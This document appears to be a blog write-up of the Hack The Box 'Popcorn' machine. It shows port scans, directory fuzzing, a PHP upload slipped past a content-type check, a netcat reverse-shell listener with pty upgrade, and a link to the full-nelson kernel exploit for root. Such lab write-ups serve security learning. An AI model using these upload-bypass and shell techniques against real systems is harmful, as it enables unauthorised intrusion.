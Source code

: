 ```yaml
---
image: /assets/img/popcorn/popcorn.png
layout: post
title: Popcorn
date: 2020-10-6 00:00:01 +5:30
categories: [Hackthebox, Medium]
tags: [torrent, web, upload] # add tag
---
```


## Summary

> We have torrent in port 80<br />
> Created an Account<br />
> There is an upload vulnerability in screenshot upload feature<br />
> After getting shell, linuxexpliotsuggester will show some exploits<br />
> Exploiting with nelson Exploit will give Root

## Walkthrough

### Enumeration

```bash
argenestel@parrot  ~/Desktop/hackthebox/popcorn  rustscan 10.10.10.6
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.

[~] The config file is expected to be at "/home/argenestel/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5
000'.  
Open 10.10.10.6:22
Open 10.10.10.6:80
[~] Starting Nmap
[>] The Nmap command to be run is nmap -vvv -p 22,80 10.10.10.6

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 21:09 IST
Initiating Ping Scan at 21:09
Scanning 10.10.10.6 [2 ports]
Completed Ping Scan at 21:09, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:09
Completed Parallel DNS resolution of 1 host. at 21:09, 0.05s elapsed
DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:09
Scanning 10.10.10.6 [2 ports]
Discovered open port 80/tcp on 10.10.10.6
Discovered open port 22/tcp on 10.10.10.6
Completed Connect Scan at 21:09, 0.20s elapsed (2 total ports)
Nmap scan report for 10.10.10.6
Host is up, received syn-ack (0.20s latency).
Scanned at 2020-10-04 21:09:37 IST for 1s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds

```

#### Port 80

Okay  let's dirbust the port80.

```bash
argenestel@parrot  ~/Desktop/hackthebox/popcorn  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.6/FUZZ  

       /'___\  /'___\           /'___\        
      /\ \__/ /\ \__/  __  __  /\ \__/        
      \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\       
       \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/       
        \ \_\   \ \_\  \ \____/  \ \_\        
         \/_/    \/_/   \/___/    \/_/        

      v1.0.2
________________________________________________

:: Method           : GET
:: URL              : http://10.10.10.6/FUZZ
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 287, Words: 21, Lines: 11]
.htpasswd               [Status: 403, Size: 287, Words: 21, Lines: 11]
cgi-bin/                [Status: 403, Size: 286, Words: 21, Lines: 11]
index                   [Status: 200, Size: 177, Words: 22, Lines: 5]
rename                  [Status: 301, Size: 309, Words: 20, Lines: 10]
test                    [Status: 200, Size: 47067, Words: 2465, Lines: 651]
torrent                 [Status: 301, Size: 310, Words: 20, Lines: 10]
```

![port](/assets/img/popcorn/port80torrent.png)

![login](/assets/img/popcorn/login.png)

Alright we checked common passwords and didn't worked.<br/>
Let's check by reg user (admin user already exists).

![reg](/assets/img/popcorn/registered.png)

Okay let's check if uploading php is possible or not<br />
ughh we can only upload torrent file.
So looking into previously uploaded file we can upload screenshot to let's check by uploading a torrent file.

since it is checking content type i changed it from application/x-php to image/png
and it was accepted as png

![upload](/assets/img/popcorn/uploaded.png)

Alright done now lets manupulate screenshot.

![uploadpng](/assets/img/popcorn/uploadedpng.png)

![png](/assets/img/popcorn/pngerror.png)

### Exploitation

Hurrayy let's get shell

```bash
argenestel@parrot  ~/Desktop/hackthebox/popcorn  nc -lvnp  4444  
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.6] 48833
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 21:47:21 up  4:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: no job control in this shell
www-data@popcorn:/$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@popcorn:/$ id
id
```

alright got www-data<br />
moving on to user

so we got george username<br />

![reg](/assets/img/popcorn/linuxexploitsuggester.png)

![reg](/assets/img/popcorn/nelsonexp.png)

<https://github.com/lucyoa/kernel-exploits/blob/master/full-nelson/full-nelson> <br />
so i got root by running linux exploit suggester.

Rooted :)
